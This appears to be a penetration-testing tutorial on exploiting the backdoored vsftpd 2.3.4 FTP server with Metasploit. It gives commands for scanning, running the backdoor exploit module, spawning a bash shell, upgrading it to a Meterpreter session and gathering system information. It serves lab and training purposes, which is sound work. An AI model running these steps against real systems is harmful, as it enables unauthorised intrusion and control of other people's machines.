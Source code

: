# Exploiting a Vulnerable FTP Server

## FTP (File Transfer Protocol)

- **FTP**: A protocol used for transferring files between a server and its clients, typically operating on **TCP port 21**.
- **Use Cases**:
  - Facilitating file sharing between systems.
  - Transferring files to and from a web server’s directory.
- **vsftpd**: A popular FTP server for Unix-like systems, including Linux distributions such as Ubuntu, CentOS, and Fedora. It is the default FTP server for these systems.
- **Vulnerability**: **vsftpd V2.3.4** is vulnerable to a **Remote Command Execution (RCE)** vulnerability caused by a backdoor introduced into the vsftpd archive during a **supply chain attack**.

## Demo: Exploiting FTP

### Plan

We aim to exploit the **vsftpd V2.3.4** vulnerability to gain remote access to the FTP server. After identifying the FTP service and version through scanning, we will use a prebuilt Metasploit exploit module to exploit the backdoor vulnerability. Once we have a shell on the target, we will upgrade it to a **Meterpreter** session for post-exploitation.

### Step-by-Step Process

Start by checking the network interface configuration:

```bash
ifconfig
```

Start the Metasploit console and the PostgreSQL service:

```bash
service postgresql start && msfconsole
```

Create a new workspace for the vsftpd attack:

```bash
workspace -a vsftpd2.3.4
```

Set the target IP globally for all subsequent commands:

```bash
setg rhosts [targetIP]
```

Check the workspace:

```bash
workspace
```

### Scanning and Enumeration

Perform an Nmap scan to identify open ports and services:

```bash
db_nmap -sS -sV -O [targetIP]
```

Check the services discovered during the scan:

```bash
services
```

Analyze the target system and services further:

```bash
analyze
```

### Exploit vsftpd Vulnerability

Search for the **vsftpd** exploit module in Metasploit:

```bash
search vsftpd
```

Use the **vsftpd 2.3.4 backdoor exploit** module:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Show the available options and module information:

```bash
show options
```

Run the exploit to gain a shell:

```bash
run
```

Once we have a basic shell, upgrade to an interactive bash shell:

```bash
/bin/bash -i
```

### Upgrading to Meterpreter

Background the current shell session by pressing **CTRL + Z**.

Search for a module to upgrade the shell to a Meterpreter session:

```bash
search shell_to_meterpreter
```

Use the **shell_to_meterpreter** post-exploitation module:

```bash
use post/multi/manage/shell_to_meterpreter
```

Set the local host interface (replace `eth1` with the correct interface):

```bash
set lhost eth1
```

Set the current shell session (assuming the shell session ID is `1`):

```bash
set session 1
```

Run the module to upgrade the shell:

```bash
run
```

### Post-Exploitation

List all active sessions:

```bash
sessions
```

Select the Meterpreter session (replace `2` with the actual session ID):

```bash
sessions 2
```

Check the system information on the target:

```bash
sysinfo
```

Verify the user ID on the target system:

```bash
getuid
```

### Conclusion

What we accomplished:
- Exploited the **vsftpd 2.3.4** backdoor vulnerability.
- Obtained an initial shell on the target system.
- Upgraded the shell to a **Meterpreter session**.
- Performed post-exploitation steps to gather system information.
